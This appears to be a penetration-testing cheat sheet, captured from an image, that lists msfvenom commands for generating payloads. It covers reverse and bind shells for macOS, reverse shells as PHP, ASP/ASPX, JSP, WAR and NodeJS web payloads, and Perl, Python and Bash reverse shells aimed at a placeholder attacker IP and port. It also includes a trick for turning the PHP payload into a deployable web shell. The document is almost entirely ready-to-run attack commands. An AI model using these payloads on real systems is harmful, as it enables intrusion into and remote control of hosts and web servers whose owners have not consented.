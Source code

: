 #### MAC Payloads
1. **Reverse Shell:**
	```bash
	msfvenom -p osx/x86/shell_reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -f macho > reverse.macho
	```
2. **Bind Shell:**
	```bash
	msfvenom -p osx/x86/shell_bind_tcp RHOST=<target_ip> LPORT=<attack_port> -f macho > bind.macho
	```

#### Web Based Payloads
1. **PHP Reverse shell:**
	```bash
	msfvenom -p php/meterpreter_reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -f raw > shell.php
	```

	```bash
	cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
	```
2. **ASP/x Reverse Shell:**
	```bash
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -f asp >reverse.asp
	```

	```bash
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -f aspx >reverse.aspx
	```
3. **JSP Reverse Shell:**
	```bash
	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -f raw> reverse.jsp
	```
4. **WAR Reverse Shell:**
	```bash
	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -f war > reverse.war
	```
5. **NodeJS:**
	```bash
	msfvenom -p nodejs/shell_reverse_tcp LHOST=<attack_ip> LPORT=<attack_port>
	```

#### Script Language payloads
1. **Perl:**
	```bash
	msfvenom -p cmd/unix/reverse_perl LHOST=<attack_ip> LPORT=<attack_port> -f raw > reverse.pl
	```
2. **Python:**
	```bash
	msfvenom -p cmd/unix/reverse_python LHOST=<attack_ip> LPORT=<attack_port> -f raw > reverse.py
	```
3. **Bash:**
	```bash
	msfvenom -p cmd/unix/reverse_bash LHOST=<attack_ip> LPORT=<attack_port> -f raw > shell.sh
	```
